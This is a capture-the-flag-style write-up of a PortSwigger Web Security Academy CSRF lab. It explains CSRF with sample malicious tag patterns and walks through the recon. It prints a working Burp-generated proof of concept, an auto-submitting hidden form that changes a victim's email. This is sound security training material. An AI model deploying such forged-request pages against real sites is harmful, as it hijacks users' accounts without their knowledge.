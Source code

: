 ```yaml
---
title: CSRF - APPRENTICE
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/CSRF"
---
```


# CSRF - APPRENTICE
###### tags: `Portswigger Web Security Academy` `Web`
[TOC]

## Lab: CSRF vulnerability with no defenses
* Description: This lab's email change functionality is vulnerable to CSRF. 
* Goal: To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server. 
You can log in to your own account using the following credentials: `wiener:peter`
* Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

## Background
:::spoiler
[CSRF 攻擊原理](https://medium.com/@Tommmmm/csrf-攻擊原理-d0f2a51810ca)
[[Day25]- 新手的Web系列CSRF](https://ithelp.ithome.com.tw/articles/10251769)
>1. 使用者登入網站
>2. 使用者透過身份驗證在本機形成cookie
>3. 使用者點擊含有惡意程式的連結，或是直接連結了第三方網站，並瀏覽了帶有以下html程式碼的網頁：`<img src=http://www.***.com/transfer.php?id=5&money=22>`
>4. 惡意程式碼利用使用者的身份發請求，即執行CSRF
>5. 使用者的帳號少錢錢勒QQ
>
> ![](https://i.imgur.com/gwCvSqZ.png)
>---
>>常見的CSRF方法
>* HTML標籤
>    * `<img>`標籤屬性
>        ```html
>        <img src="惡意連結">
>        ```
>    以GET方式請求第三方網站，瀏覽器會帶上使用者的cookie發出GET請求
>    
>    * `<script>`標籤屬性
>        ```javascript
>        `<script src="惡意連結">`
>        ```
>    * `<iframe>`標籤屬性
>        ```html
>        `<iframe src="惡意連結">`
>        ```
:::

## Recon
1. According to the description
It said the email change function has some CSRF exploitation. So, maybe I can login by username and password they provided.
![](https://i.imgur.com/YW4dJqa.png)
2. Find where has CSRF
Then I tried to change my email and trace the package
![](https://i.imgur.com/z2AXOk1.png)

3. Then we can forge a website and let our victim to access
In this lab, PortSwigger provided an exploited server that can simulate a victim to access.

## Exp
Directly create CSRF PoC by Burp Suit
![](https://i.imgur.com/oY6NlZE.png)

Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>

    <form action="https://0a050071049c31f4815898e900330005.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/nlgu1Oa.png)
:::

## Reference
[Burp Suite Security Academy Writeup](https://github.com/frank-leitner/portswigger-websecurity-academy)
[从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618)
[Lab: CSRF vulnerability with no defenses - write up](https://blog.csdn.net/ZripenYe/article/details/120793709)
